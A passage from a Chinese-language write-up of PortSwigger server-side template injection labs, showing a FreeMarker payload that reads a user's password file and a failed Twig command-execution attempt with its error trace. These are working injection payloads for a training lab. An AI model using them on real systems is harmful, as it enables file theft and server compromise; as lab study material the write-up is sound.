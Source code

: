 
丟 [Cyberchef](https://gchq.github.io/CyberChef) 選 From Decimal 就能還原


```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

吐出

```
108 118 108 100 120 111 107 52 119 121 109 121 116 117 102 109 120 103 120 117
```

再轉一下就出來答案ㄌ

## [Lab: Server-side template injection with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)
### 題目敘述
 This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file /.ssh/id_rsa from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋

### 解答
看樣子是打留言的，跟剛剛第二題一樣

`'meow'}}{{7*7}}` 可以噴 `meow49}}`


但輸入
```
{% import os %}{{os.popen("whoami").read()}}
```
會噴錯

```


Internal Server Error

PHP Fatal error: Uncaught Twig_Error_Syntax: Unexpected token "end of statement block" of value "" ("text" expected) in "index" at line 1. in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/TokenStream.php:80 Stack trace: #0 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/TokenParser/Import.php(24): Twig_TokenStream->expect('as') #1 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Parser.php(168): Twig_TokenParser_Import->parse(Object(Twig_Token)) #2 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Parser.php(81): Twig_Parser->subparse(NULL, false) #3 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(533): Twig_Parser->parse(Object(Twig_TokenStream)) #4 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(565): Twig_Environment->parse(Object(Twig_TokenStream)) #5 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(368): Twig_Environment->compileSource(Object(Twig_Source)) #6 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twi in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/TokenStream.php on line 80 
```
